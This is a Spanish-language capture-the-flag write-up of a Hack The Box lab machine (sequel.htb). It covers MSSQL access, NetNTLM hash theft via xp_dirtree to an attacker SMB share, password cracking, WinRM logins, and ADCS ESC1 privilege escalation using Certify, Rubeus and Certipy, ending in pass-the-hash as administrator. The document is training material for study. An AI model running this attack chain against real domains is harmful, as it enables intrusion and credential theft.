

# Explotación

Haciendo uso de las credenciales y la herramienta de `impacket-mssqlclient` que encontramos podemos ingresar a la base de datos que es un `sql server`.

```python
❯ impacket-mssqlclient sequel.htb/PublicUser:'GuestUserCantWrite1'@10.10.11.202
```




## Steal NetNTLM hash / Relay attack

Enumerando encontraremos  que desde la terminal de la base de datos podemos hacer una petición a un recurso compartido de nuestra maquina y así obtener un has netNTLM, que es crackeable

- [Pentesting - mssql - microsoft](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)

Primero iniciaremos un servidor `smb` con `impacket` en nuestra maquina atacante

```python
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```

Luego ejecutaremos, haciendo una petición de un recurso compartido a nuestra maquina atacante

```python
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
```



Luego deberiamos de obtener un hash del usuario `sql_svc`



## Cracking hash

Ahora para crackear el hash que obtuvimos, usaremos la herramienta  de `john` 

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)     
1g 0:00:00:04 DONE (2024-03-12 18:40) 0.2178g/s 2331Kp/s 2331Kc/s 2331KC/s RENZOJAVIER..REDMAN69
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Una vez obtenida la contraseña, lo que haremos será validarla contra el servicio `winrm` con la herramienta de `netexec` 

```python
❯ netexec winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
```



Nos da un resultado de `Pwn3d!`, lo que no indica que la contraseña es valida y podemos conectarnos haciendo uso de `evil-winrm`
# Escalada de privilegios
## Usuario : sql_svc

Luego de validar las credenciales con `netexec`, ingresaremos a la maquina victima

```python
❯ evil-winrm -i 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
```



Luego de enumerar la maquina victima encontraremos un `.bak` en donde encontraremos las credenciales del usuario `ryan.cooper`

```python
*Evil-WinRM* PS C:\SQLServer\logs> type ERRORLOG.BAK
```



## Usuario : ryan.cooper

Una vez obtenidas las credenciales, lo que haremos será validarlas con `netexec`

```python
❯ netexec winrm 10.10.11.202 -u 'ryan.cooper' -p 'NuclearMosquito3'
```



¡Las credenciales son validas! Ahora haciendo uso de `evil-winrm` ingresaremos a la maquina victima por el servicio `winrm`

```python
❯ evil-winrm -i 10.10.11.202 -u 'ryan.cooper' -p 'NuclearMosquito3'
```



### Certify

Enumerando encontraremos que un certificado de `UserAuthentication` tiene una vulnerabilidad. Esto lo enumeraremos con la herramienta de `certify.exe` que la podemos descargar de [SharpCollection](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Certify.exe) 

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> .\Certify.exe find /vulnerable
```





Luego haremos una petición de un certificado para el usuario `administrator`, que nos dara un `cert.pem`

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```



Luego copiareamos y lo guardaremos en un archivo `cert.pem` y vamos a transformar el certificado generado como `.pem` a `.pfx` con openssl de la siguiente manera

```python
❯ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```



Luego subiremos el `cert.pem` con `upload` a la maquina victima

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> upload cert/cert.pfx
```

Ahora podremos usarlo para autenticarse usando Rubeus, podemos ver y leer un poco mas en el repositorio de [Rubeus - asktgt](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt) 

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> .\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx 
```



Ahora con `/getcredentials` solicitaremos las credenciales en donde encontraremos el hash `NTLM`

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> .\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials
```





Teniendo el hash, lo que haremos será un `pass the hash` con `evil-winrm` 

## Usuario : administrator

```python
❯ evil-winrm -i 10.10.11.202 -u 'administrator' -H 'A52F78E4C751E5F5E17E1E9F3E58F4EE'
```


### Certipy

Ahora haremos lo mismo que hicimos con `certify` con otra herramienta que es `Certipy`. Para mas detalles sobre la explotación de certificados podemos ir al sitio web de [ESC 1 missconfigured certifigured](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1-explained)

Haremos una petición del certificado con el usuario de `administrator`

```python
❯ certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -upn administrator@sequel.htb -debug
```



Luego obtendremos un archivo `administrator.pfx` que lo usaremos para obtener el hash `NTLM`



Vemos que tenemos problemas con nuestra configuración de tiempo con la maquina victima, para ello lo que haremos será deshabilitar la sincronización de nuestra maquina atacante virtualizada en `virtual box` 

```python
❯ timedatectl set-ntp 0
```

Ahora haremos uso de `ntpdate` para sincronizar nuestra hora local de nuestra maquina atacante con la maquina victima.

```python
❯ sudo ntpdate [IP]
```



Ahora si podemos volver a ejecutar y podremos obtener el hash `NTLM`.

```python
❯ certipy auth -pfx 'administrator.pfx' -u 'administrator' -domain 'sequel.htb' -dc-ip 10.10.11.202
```



## Usuario : administrator




# Recursos:

- [https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx](https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx)
- [https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-adcs/](https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-adcs/)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1-explained](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1-explained)
- [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)
- [https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any)
- [https://hacktricks.boitatech.com.br/windows/active-directory-methodology/kerberoast](https://hacktricks.boitatech.com.br/windows/active-directory-methodology/kerberoast)
- [https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt)
- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)
